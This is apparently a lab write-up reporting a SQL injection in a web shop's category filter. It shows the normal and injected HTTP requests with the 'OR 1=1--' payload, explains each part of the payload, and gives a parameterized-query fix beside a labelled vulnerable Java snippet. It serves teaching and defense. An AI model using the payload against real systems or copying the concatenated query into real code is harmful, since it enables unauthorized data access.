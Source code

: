 
## Detailed Findings

### 🔴 CRITICAL: SQL Injection in Product Filter
**OWASP Category:** A03 - Injection  
**CVSS Score:** 9.1 (Critical)  
**Location:** `https://[LAB-ID].web-security-academy.net/filter?category=Gifts`

**Description:**
The application's product category filter is vulnerable to SQL injection. The `category` parameter in the WHERE clause is not properly sanitized, allowing attackers to manipulate the SQL query structure. This enables retrieval of hidden products and potentially sensitive database information.

**Proof of Concept:**

**Original Request (Normal):**
```http
GET /filter?category=Gifts HTTP/2
Host: 0a8b00f2049c8b5e82e4c7a5009300b2.web-security-academy.net
Cookie: session=XqBq7bF2kM2hF8v3L9mN1pR5sT8uY4zA

```

**Malicious Request (SQL Injection):**
```http
GET /filter?category=Gifts'+OR+1=1-- HTTP/2
Host: 0a8b00f2049c8b5e82e4c7a5009300b2.web-security-academy.net
Cookie: session=XqBq7bF2kM2hF8v3L9mN1pR5sT8uY4zA

```

**Payload Analysis:**
- `Gifts'` - Closes the original string parameter
- `OR 1=1` - Always true condition that bypasses the WHERE filter  
- `--` - SQL comment to ignore remaining query

**Expected SQL Query Behavior:**
```sql
-- Original query (secure)
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

-- Injected query (vulnerable)  
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
-- Everything after -- is commented out
```

**Impact:**
- **Data Exposure:** Access to unreleased/hidden products that should not be visible
- **Business Logic Bypass:** Circumvention of application access controls
- **Information Disclosure:** Potential access to sensitive product data, pricing, or inventory information

**Fix:**
- **Immediate:** Implement parameterized queries/prepared statements
- **Code Example (Secure):**
```java
// Vulnerable code
String query = "SELECT * FROM products WHERE category = '" + userInput + "' AND released = 1";

// Secure code  
String query = "SELECT * FROM products WHERE category = ? AND released = 1";
PreparedStatement stmt = connection.prepareStatement(query);
stmt.setString(1, userInput);
```

